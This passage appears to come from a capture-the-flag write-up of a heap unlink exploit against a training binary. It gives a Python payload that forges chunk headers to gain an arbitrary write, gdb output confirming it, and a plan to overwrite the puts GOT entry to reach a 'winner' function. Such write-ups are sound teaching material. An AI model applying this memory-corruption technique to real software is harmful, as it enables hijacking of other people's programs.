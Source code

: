 This picture shows what will be written where (please excuse my drawing skills :P):

TODO Picture

So basically we write the value at `c + 4 (prev_size) + 12` (prev->bk) to the address specified at `c + 4 (prev_size) + 8` + 12 (prev->fd).

This results in the following payload generation. We put random values for the write value and target address for now
to check if it works. We expect to see a write access violation from within the `unlink` macro.

```python
import struct

payload = ""
payload = payload + "A" * 32 # buf a

payload = payload + " " +  "B" * 32  # buf b 

# overwriting into chunk c
payload = payload + struct.pack("<I", 0xfffffffc) # prev_size
payload = payload + struct.pack("<I", 0xfffffffc) # size, must be greater than 80
payload = payload + "\xff\xff\xff\xff" # 4 bytes of chunk, since prev_size is 4
payload = payload + struct.pack("<I", 0xdeadbeef - 12) # TARGET 
payload = payload + struct.pack("<I", 0xdeadbeef) # WORD TO WRITE


# satisfy strcpy for third argument
payload = payload + " CCCC"

print(payload)
```

It worked! As you can see, the program is trying to write `0xdeadbeef` to `0xdeadbe00 + 0xc`:

```
→  0x8049941 <free+234>       mov    DWORD PTR [eax+0xc], edx
$eax   : 0xdeadbe00
$ebx   : 0xffffdcf0  →  0x00000004
$ecx   : 0x0
$edx   : 0xdeadbeef
````

Now we need to figure out what we want to write where in order to redirect execution to the `winner` function.
What comes to mind is overwriting the GOT entry for `puts` which is called after the `free` calls.

First, we need to find the address of `puts` in the PLT and of the `winner` function:

```
(gdb) disas winner
Dump of assembler code for function winner:
   0x080487d5 <+0>:     push   ebp

(gdb) disas 'puts@plt'
Dump of assembler code for function puts@plt:
   0x080485b0 <+0>:     jmp    DWORD PTR ds:0x804c13c
   0x080485b6 <+6>:     push   0x28
   0x080485bb <+11>:    jmp    0x8048550
```
